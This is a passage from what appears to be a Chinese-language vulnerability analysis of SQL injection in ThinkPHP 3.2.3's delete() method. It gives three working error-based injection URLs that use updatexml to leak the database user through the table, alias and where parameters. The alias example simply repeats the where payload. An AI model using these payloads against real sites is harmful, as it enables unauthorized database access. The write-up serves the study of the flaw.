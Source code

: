 ![](./resource/Thinkphp3.2.3select&find&delete注入漏洞/media/rId31.png)

而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    table: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1
